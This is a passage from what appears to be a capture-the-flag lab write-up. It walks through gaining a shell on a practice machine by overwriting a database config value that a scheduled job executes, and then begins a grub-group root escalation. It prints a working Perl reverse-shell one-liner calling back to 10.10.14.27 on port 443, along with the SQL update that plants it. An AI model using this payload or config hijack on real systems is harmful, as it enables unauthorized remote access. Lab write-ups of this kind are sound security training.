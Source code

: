 ```
| 104 | lifetime                | 1                                                                        |
| 105 | session_handler         | file                                                                     |
+-----+-------------------------+--------------------------------------------------------------------------+
52 rows in set (0.00 sec)
```

Quite a few things, but most importantly, the `ftp_pass` could not be cracked, and there was a script present in the `checkrelease` variable:

```
|  86 | checkrelease            | /home/guly/checkbase.pl;/home/guly/checkplugins.pl;    
```

I didn't know what this was doing, but it appeared to be running somewhat consistently. I updated the value with Perl reverse shell script:

```perl
use Socket;$i="10.10.14.27";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("bash -i");};
```

```
MariaDB [neddy]> update config set option_value='/usr/bin/perl /var/lib/php/sessions/rev.pl' where id =86;
Query OK, 1 row affected (0.00 sec)
Rows matched: 1  Changed: 1  Warnings: 0
```

After a while, I got a reverse shell:

![](../../../.gitbook/assets/unattended-image-6.png)

### Grub Group --> Root

This user was part of the `grub` group, something that I had not seen before. I searched for all files users of this group had permissions over:

```
guly@unattended:~$ find / -group grub 2>/dev/null
/boot/initrd.img-4.9.0-13-amd64
/boot/initrd.img-4.9.0-8-amd64
/boot/initrd.img-4.19.0-25-amd64
```

